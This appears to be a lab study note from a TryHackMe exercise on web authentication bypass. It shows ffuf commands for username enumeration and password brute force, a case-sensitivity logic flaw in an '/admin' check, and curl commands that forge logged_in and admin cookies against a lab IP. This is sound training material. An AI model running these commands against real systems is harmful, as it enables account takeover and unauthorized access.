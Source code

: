 <h1 style="text-align:center">Authentication Bypass</h1>

Website authentication can be bypassed, defeated, or broken.

## Username Enumeration

Username enumeration can be used with signup pages. For example, you can enter a username (e.g. `admin`) and attempt a signup. This will invariably tell you that the username is in use. This error message can be used to produce a list of valid usernames.

The `ffuf` tool uses a list of commonly used usernames to check for matches.

https://github.com/ffuf/ffuf

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.26.219/customers/signup -mr "username already exists"
```

The `-w` argument selects the wordlist on the computer. The `-X` argument specifies the request method (a GET request by default), but a POST request in this example. The `-d` argument specifies the data that is being sent. The username is set to `FUZZ`, which is a keyword signifying there the wordlist will enter its requests. The `-H` argument is used for adding additional headers to the request. `Content-Type` is being set so the web server knows we are sending a form. The `-u` argument specifies the URL we are making a request to. The `-mr` argument is the text on the page we are looking for to validate we have found a valid username.

## Brute Force

Using `ffuf` and making sure you are in the same directory as the file of usernames that were found on the target system:

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.26.219/customers/login -fc 200
```

In this command we are using multiple wordlists. We are using `W1` for the list of valid usernames stored by us based on what was found during enumeration. And we are using `W2` for the list of passwords we will try (also from a wordlist). Multiple wordlists are specified using the `-w` option, seperated by commas. To determin if we find a positive match, we can use the `-fc` argument to check for a HTTP status code of 200.

## Logic Flaws

Authetication can contain logic flaws. This is when the logical path of authentication is bypassed somehow.

```php
if( url.substr(0,6) === '/admin') {     // can use aDmin to bypass check
    # Code to check user is an admin
} else {
    # View Page
}
```

## Cookie Tampering

Request the target page:

`user@tryhackme$ curl http://10.10.26.219/cookie-test`

Set logged_in cookie set to `true` and admin set to `false`:

`user@tryhackme$ curl -H "Cookie: logged_in=true; admin=false" http://10.10.26.219/cookie-test`

Set logged_in and admin to `true`:

`curl -H "Cookie: logged_in=true; admin=true" http://10.10.26.219/cookie-test`

Cookies can come in the form of hashes.

https://crackstation.net/ - used to check for hashes.
